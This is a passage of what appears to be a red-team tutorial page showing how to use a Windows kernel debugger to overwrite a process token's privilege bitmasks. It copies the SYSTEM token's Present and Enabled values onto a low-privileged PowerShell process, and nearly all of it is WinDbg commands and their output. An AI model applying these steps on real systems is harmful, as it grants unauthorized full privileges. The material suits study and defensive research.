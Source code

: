 ![](<../../.gitbook/assets/image (347).png>)

We can manipulate the kernel memory and make `Present` and `Enabled` values match like so:

```erlang
eq 0xffffc507dab77990+0x40+8 0x00000006`02880000
```

After manipulating the memory and matching the `Present` and `Enabled` values, we can now see how all the privileges in the `State` column of the `whoami /priv` output are `Enabled`:

![](<../../.gitbook/assets/image (331).png>)

### Adding More Privileges

Let's see if we can try to add more privileges to that exsiting token rather than just enabling those that already exist.&#x20;

How do we know what is a valid value in the `Present` field that would give us more/elevated privileges? We can get a good hint by inspecting the `Present` value of the `SYSTEM` process (PID 4) token:

```erlang
!process  4 1
sep_token_privileges 0x40+ffffde8fe9a06040
```

![](<../../.gitbook/assets/image (348).png>)

From the above, `Present` value is ``0x0000001f`f2ffffbc`` - this represents all the privileges the SYSTEM process token has.&#x20;

Let's see if we can assign this value to our powershell process's token to both `Present` and `Enabled` fields. If successful, we should have all the SYSTEM privileges enabled for our low privileged powershell process running in the context of the user `ws02\spotless`:

```erlang
kd> eq 0x40+ffffde8ff8cde5f0+8 0x0000001f`f2ffffbc
kd> eq 0x40+ffffde8ff8cde5f0 0x0000001f`f2ffffbc
```

Let's check if the new values got assigned to our `_sep_token_privileges` structure:

```erlang
kd> dt _sep_token_privileges 0x40+ffffde8ff8cde5f0
nt!_SEP_TOKEN_PRIVILEGES
   +0x000 Present          : 0x0000001f`f2ffffbc
   +0x008 Enabled          : 0x0000001f`f2ffffbc
   +0x010 EnabledByDefault : 0x40800000
```

Running `whoami /priv` now shows that we have all the SYSTEM privileges and all of them are enabled:

![](<../../.gitbook/assets/image (352).png>)

## References

